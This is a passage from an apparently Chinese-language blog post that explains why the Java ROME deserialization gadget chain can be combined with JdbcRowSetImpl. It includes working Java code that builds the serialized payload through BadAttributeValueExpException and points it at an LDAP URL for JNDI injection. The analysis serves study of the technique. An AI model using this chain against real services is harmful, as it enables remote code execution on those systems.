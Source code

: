 ```
Object templatesImpl = null;
        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesImpl); //在这里指定了从templates.class接口里去获取getter，
                                                                              //其中只有一个getter：getOutputProperties()
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);
        serialize(badAttributeValueExpException);       
        unserialize("ser.bin");
JdbcRowSetImpl
```

Rome链可以结合JdbcRowSetImpl使用，乍一看没什么大不了，但对getter调用流程有了解的师傅应该会意识到问题所在

getter的调用是一个一个来的，如果中途报错，流程就会中断，让我们来看看JdbcRowSetImpl里的getter（property：仅A到D）

.......有点太多了，这也是为什么FastJson和Jackson结合JdbcRowSetImpl的利用都是会中途报错的

回到Rome，真的有可能走到我们想要的getter而不报错吗？调试一下Rome结合JdbcRowSetImpl的利用代码

```
public static void main(String[] args) throws Exception{
        JdbcRowSetImpl jdbcRowset = new JdbcRowSetImpl();
        String url = "ldap://127.0.0.1:10990";
        jdbcRowset.setDataSourceName(url);

        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowset);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class Bv = Class.forName("javax.management.BadAttributeValueExpException");
        Field val = Bv.getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException,toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
```

在`getDatabaseMetaData()`处下一个断点，得到调用栈

在ToStringBean#toString(String):137`Object value = pReadMethod.invoke(_obj,NO_PARAMS);` 处下个断点，观察`pReadMethod`

这个顺序又是怎么决定的呢，中间的过程很无聊，我就不详细说明了，感兴趣的师傅可以自己去调试一下，也没有多复杂

总之最终的调用顺序是按照一个`HashMap`转换而成的`Descriptor`（当成List就行）来的，而我们都知道HashMap是根据**键的哈希值**来确定存储顺序的（相当于随机了）

总之就是在这个机缘巧合之下，getter存放顺序很合适，使得**在调用到`getDatabaseMetaData()`之前都不会报错**

从而**Rome链可以结合JdbcRowSetImpl使用！**

